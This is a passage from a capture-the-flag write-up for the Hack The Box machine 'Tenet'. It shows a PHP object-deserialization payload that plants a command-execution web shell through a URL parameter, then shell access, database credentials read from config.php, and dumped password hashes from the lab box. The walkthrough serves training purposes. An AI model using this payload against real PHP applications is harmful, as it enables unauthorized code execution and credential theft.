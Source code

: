 Run the the serialized object

```bash
┌[Parrot]─[04:20-13/06]─[/home/aju/CTF/HTB/Tenet]
└╼aju$php test.php
O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"edg.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```
 
 Paste the obtained serialized object in the url as parameter for `arepo`
 
 ```php
 http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"edg.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
 ```

![](/Writeups/Tenet/Pasted image 20210613032702.png)

code execution

![](/Writeups/Tenet/Pasted image 20210613033144.png)

# Reverse Shell

Got a shell

![](/Writeups/Tenet/Pasted image 20210613033923.png)

Reading the config.php will give as database password and username

![](/Writeups/Tenet/Pasted image 20210613034242.png)

|username|password|
|---|---|
|neil|Opera2112|

```php
From mysql we got users and hashes 
+----+-------------+------------------------------------+
| ID | user_login  | user_pass                          |
+----+-------------+------------------------------------+
|  1 | protagonist | $P$BqNNfN07OWdaEfHmGwufBs.b.BebvZ. |
|  2 | neil        | $P$BtFC5SOvjEMFWLE4zq5DWXy7sJPUqM. |
+----+-------------+------------------------------------+
2 rows in set (0.00 sec)
```

Using neil's password we can ssh into machine

![](/Writeups/Tenet/Pasted image 20210613034926.png)

# Privilege Escalation
